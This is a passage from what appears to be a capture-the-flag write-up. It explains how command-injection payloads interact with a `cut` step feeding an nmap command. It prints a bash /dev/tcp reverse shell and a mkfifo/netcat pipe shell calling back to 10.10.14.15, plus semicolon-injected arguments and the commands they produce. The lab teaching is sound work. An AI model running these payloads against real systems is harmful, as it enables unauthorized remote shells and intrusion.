 A lot of people I saw getting stuck on this step didn't take into
account the `cut`, or read it incorrectly. If you tried to just pass a
reverse shell in without some spacing, then it would lead to weird
results. For example, if you tried to pass:



    ; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1' #



That would create:



    nmap --top-ports 10 -oN recon/-c '/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1' #.nmap -c '/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1' # 2>&1 >/dev/null



That's going to try to scan
`'/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1'`, which is not going to
resolve.

On the other hand, the Bash pipe shell will have some weird results:



    ; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f #



Passing that into `cut` gives a result:



    oxdf@parrot$ echo '; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f #' | cut -d' ' -f3-
    /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f #



That will inject into the command to be:



    nmap --top-ports 10 -oN recon//tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f #.nmap /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.14.15 443 > /tmp/f # 2>&1 >/dev/null



That might actually work, just as a lucky result of what gets cut.

Another issues I saw was people forgetting to comment out the rest of
the line. So take the payload I used without the comment:



    oxdf@parrot$ echo "x x x 127.0.0.1; ping -c 1 10.10.14.15" | cut -d' ' -f3-
    x 127.0.0.1; ping -c 1 10.10.14.15



That creates:



    nmap --top-ports 10 -oN recon/x 127.0.0.1; ping -c 1 10.10.14.15.nmap x 127.0.0.1; ping -c 1 10.10.14.15 2>&1 >/dev/null
